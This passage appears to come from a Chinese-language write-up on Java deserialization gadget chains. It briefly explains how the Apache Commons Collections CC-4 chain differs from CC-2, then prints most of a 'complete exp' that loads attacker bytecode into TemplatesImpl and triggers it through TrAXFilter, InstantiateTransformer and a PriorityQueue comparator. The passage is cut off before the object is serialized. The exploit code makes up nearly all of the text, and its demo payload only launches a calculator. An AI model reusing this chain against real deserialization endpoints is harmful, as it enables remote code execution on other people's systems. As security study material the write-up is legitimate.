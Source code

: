 ```bash
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-2 分析

结合 CC-2，CC-4 就是把 Transformer 换成了 InstantiateTransformer，改用 TrAXFilter 的构造方法调用 templates 的 newTransformer 方法。

### 完整 exp

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl Templates = new TemplatesImpl();

        Class templatesClass = Templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");

        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));

        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

```